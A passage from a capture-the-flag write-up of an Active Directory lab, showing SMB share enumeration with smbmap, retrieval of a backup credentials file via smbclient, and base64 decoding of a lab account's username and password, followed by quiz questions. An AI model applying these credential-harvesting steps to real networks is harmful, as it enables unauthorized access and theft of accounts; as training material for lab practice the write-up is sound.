 * form RDP session tried to enumerate further on target system but found nothing except user flag.
* thus next we try to check for shares on SMB, as now we have a valid creds it will let us see online share names and our permissions over it.

```bash
┌──(kali㉿kali)-[~/Desktop/Attacktive_Directory]
└─$ smbmap -H 10.10.134.250 -u "svc-admin" -p "management2005"
[+] IP: 10.10.134.250:445	Name: 10.10.134.250                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	backup                                            	READ ONLY	
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share
```

* out of all share `backup` looks interesting.
* looked into it and found a `backup_credentials.txt` file.
* this file seems to contain backup account creds.

```bash
┌──(kali㉿kali)-[~/Desktop/Attacktive_Directory]
└─$ smbclient \\\\10.10.134.250\\Backup  -U 'svc-admin'
Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Apr  4 12:08:39 2020
  ..                                  D        0  Sat Apr  4 12:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 12:08:53 2020

		8247551 blocks of size 4096. 3675683 blocks available
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> exit
                                                                                                                                    
┌──(kali㉿kali)-[~/Desktop/Attacktive_Directory]
└─$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw                                                                                                                                    
┌──(kali㉿kali)-[~/Desktop/Attacktive_Directory]
└─$ base64 -d backup_credentials.txt 
backup@spookysec.local:backup2517860
```

* thus we have `backup@spookysec.local:backup2517860`

#### **Questions**

*   Using utility can we map remote SMB shares?

    `smbclient`
*   Which option will list shares?
